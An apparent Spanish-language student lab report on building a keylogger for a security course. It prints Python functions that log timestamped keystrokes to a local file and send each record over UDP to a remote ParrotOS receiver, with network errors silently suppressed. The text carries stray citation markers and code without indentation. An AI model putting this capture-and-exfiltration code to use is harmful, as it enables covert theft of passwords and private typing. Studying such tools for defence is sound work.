


Estudiante: Angel Aaron Acuña Quezada (181583)
Catedrático: Mtro. Servando López Contreras
Fecha de entrega: 24 de agosto del 2026
Comprender las técnicas ofensivas es el primer paso para desarrollar buenas defensas[cite: 2]. En esta práctica, exploramos la anatomía de la captura de datos de entrada mediante la manipulación de event hooks en el sistema operativo[cite: 2]. Este reporte detalla el desarrollo de un script capaz de interceptar eventos de teclado, registrar su actividad con marcas temporales exactas y transmitir esta telemetría hacia un receptor remoto en ParrotOS[cite: 2].
- > Requisitos técnicos: Persistencia, Asociación temporal, Envío de información[cite: 2].
- > Concepto principal: Manipulación de event hooks y callbacks[cite: 2].
- > Entorno emisor: Script local ejecutado en Windows.
- > Entorno receptor: Máquina virtual con ParrotOS (IP: 192.168.0.28, Puerto: 44444)[cite: 2].
A) Persistencia y Asociación
El código crea un archivo local llamado registro_local.log en el escritorio usando el modo de apertura 'a' (append) para evitar la sobreescritura de datos[cite: 2]. Cada pulsación registrada es acompañada de una marca de tiempo generada por la función ts()[cite: 2].
def log(tipo, key):
global n
t = ts()
reg = f"{t} | {tipo} | evento_{n:03d} | {key}\n"
n += 1
with open(ruta_log, 'a') as f:
f.write(reg)
send(reg)
B) Envío de Información
Se configuró la transmisión de datos por red mediante la función send[cite: 2]. Se utiliza un bloque try-except junto con un socket UDP (AF_INET, SOCK_DGRAM) para asegurar que el programa no se interrumpa ante posibles errores de red[cite: 2].
def send(data):
try:
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(data.encode(), (ip, port))
except:
pass
> EJECUCIÓN EN ENTORNO WINDOWS

> RECEPCIÓN EN PARROT OS

Conclusión:
Con el desarrollo de este script, logramos entender de forma práctica el funcionamiento de un keylogger, observando cómo se capturan los datos y son enviados a través de protocolos de red comunes[cite: 2]. Las vulnerabilidades no siempre residen en fallas de software complejas, sino también en el abuso de funciones nativas del sistema operativo[cite: 2]. Entender esto nos ayuda a preparar una mejor defensa y a ser conscientes de lo que un atacante puede lograr[cite: 2].